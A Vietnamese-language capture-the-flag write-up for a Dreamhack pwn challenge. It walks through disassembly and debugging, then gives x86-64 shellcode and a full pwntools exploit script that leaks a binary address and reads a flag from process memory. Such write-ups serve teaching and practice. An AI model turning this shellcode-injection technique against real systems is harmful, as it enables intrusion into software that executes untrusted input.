

# Decription

[](https://dreamhack.io/wargame/challenges/2033)

# Source
ida

Main func: 
sub() func: 

# Problem

```c
Theo ida, biến buf được mmap 7. Tức là có full quyền rwx.
Ta thấy read đọc vào buf 0x400 bytes sau đó gọi hàm sub().
Hàm sub() là mở flag.txt sau đó ghi flag vào biến flag rồi đóng lại. Không có in ra flag.

Sau đó trong hàm main buf được ép thành 1 hàm và thực thi. Điều này làm ta nghĩ ngay đến việc dùng shellcode.
```

# Solve

Ta hãy đi debug chương trình để xem nó hoạt động như thế nào.


Tháo gỡ hàm main và đọc từ từ. Ta thấy
```c
   0x000000000000130c <+195>:   call   0x10e0 <puts@plt>
   0x0000000000001311 <+200>:   call   0x1328
   0x0000000000001316 <+205>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000000131a <+209>:   mov    eax,0x0
   0x000000000000131f <+214>:   call   rdx


Sau khi puts, nó gán buf (rbp-0x8) vào rdx và sau đó call rdx.
Đặt breakpoint ở vị trí call rdx.

À. Ta nên checksec trước khi làm điều này.
gef➤  checksec
[+] checksec for '/home/long/Downloads/dreamhack/pwn/passpark/main'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full

PIE hoạt động -> địa chỉ động.
Mặc dù NX ( Stack không thực thi) nhưng buf được mmap nên không quan trọng.

Được rồi. Hãy đặt bp tại call rbx.
b* main+214
```

```c
Tiếp theo điều chúng ta cần làm là gì. Để ý rằng flag được lưu trong &flag. Hãy xem trong sub(), flag là địa chỉ gì.

Đặt thêm 1 bp tại call sub() ( ngay sau hàm puts cuối cùng)

0x000055555555530c <+195>:   call   0x5555555550e0 <puts@plt>
0x0000555555555311 <+200>:   call   0x555555555328


b* main+200

```


```c
Ta thấy được flag thuộc vùng địa chỉ của binary.
Vấn đề là cần leak được nó ra. Sau đó in nội dung của nó là done.

Vậy phải in như nào? Hãy dùng shellcode và in ra 1 số lượng bytes lớn và nhận về địa chỉ exe leak.
```

```c
    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, rsp
    mov rdx, 0x100
    syscall
```



Ta thấy ngay 6 bytes nhận về đầu tiên là exe leak.
Tiếp theo là tính offset đến exe base và sau đó offet đến flag.

```c
p.recv(36)
p.recv(19)
leak = u64(p.recv(6) + b'\x00\x00')
exe.address = leak - 4897
flag = exe.address + 16448
```
Giờ đã có địa chỉ của flag. Tiếp theo ta hãy in nội dung của flag ra. Trước hết hãy vết shellcode nhập địa chỉ flag sau đó  là in ra flag.

```c
    xor rax, rax
    mov rdi, 0
    mov rsi, rsp
    mov rbx, 0x50
    syscall

    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, [rsp]
    mov rbx, 0x100
    syscall
```
# Full script
```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('main', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* main+165
b*main+214
b*main+200

        c
        ''')
        input()


if args.REMOTE:
    p = remote('host3.dreamhack.games', 13654)
else:
    p = process([exe.path])
GDB()

shellcode= asm('''

    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, rsp
    mov rdx, 0x100
    syscall

    xor rax, rax
    mov rdi, 0
    mov rsi, rsp
    mov rbx, 0x50
    syscall

    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, [rsp]
    mov rbx, 0x100
    syscall


    ''', arch='amd64')

sla(b'> ', shellcode)

p.recv(36)
p.recv(19)
leak = u64(p.recv(6) + b'\x00\x00')
exe.address = leak - 4897
flag = exe.address + 16448
log.info('Leak : ' + hex(leak))
log.info('Base : ' + hex(exe.address))
log.info('Flag : ' + hex(flag))

input('Nhap flag: ')
sl(p64(flag))
p.interactive()
```

